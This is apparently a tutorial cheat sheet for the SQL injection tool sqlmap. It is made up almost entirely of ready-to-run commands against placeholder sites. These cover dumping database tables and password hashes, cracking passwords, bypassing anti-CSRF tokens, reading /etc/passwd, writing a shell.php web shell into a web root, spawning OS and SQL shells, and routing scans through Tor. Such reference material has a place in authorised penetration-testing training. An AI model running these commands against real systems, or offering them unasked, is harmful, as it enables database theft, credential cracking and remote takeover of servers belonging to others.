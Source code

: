 | **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |

Cheat Sheet
Easy Scanning option

```shell
sqlmap -u "http://testsite.com/login.php"
```
Scanning by using tor

```shell
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```
Scanning by manually setting the return time

```shell
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```
List all databases at the site

```shell
sqlmap -u "http://testsite.com/login.php" --dbs
```
List all tables in a specific database

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```
Dump the contents of a DB table

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```
List all columns in a table

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```
Dump only selected columns

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```
Dump a table from a database when you have admin credentials

```shell
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```
Get OS Shell
```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```
Get SQL Shell
```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```
The ultimate manual for sqlmap can also be found here

Conclusion
As always I hope you found this tutorial useful Please let em know if you want to see a comprehensive sqlmap tutorial.